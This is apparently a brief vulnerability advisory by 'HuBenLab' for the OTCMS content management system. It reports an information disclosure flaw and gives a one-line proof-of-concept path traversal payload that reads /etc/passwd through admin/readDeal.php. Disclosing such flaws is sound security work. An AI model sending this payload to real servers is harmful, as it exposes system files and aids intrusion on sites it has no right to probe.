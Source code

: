 # OTCMS was discovered obtain the web directory path and other information leaked 

## Description
    OTCMS was discovered to contain an information disclosure vulnerability which allows attackers to obtain the web directory path and other information leaked by the server via a crafted web request.
## Vendor Homepage
    http://otcms.com/

## Author
    HuBenLab
## Proof of Concept
payload:

```
admin/readDeal.php?mudi=readQrCode&img=../../../../../../../../../etc/passwd
```

![image-20230606130832410](./img/image-20230606130832410.png)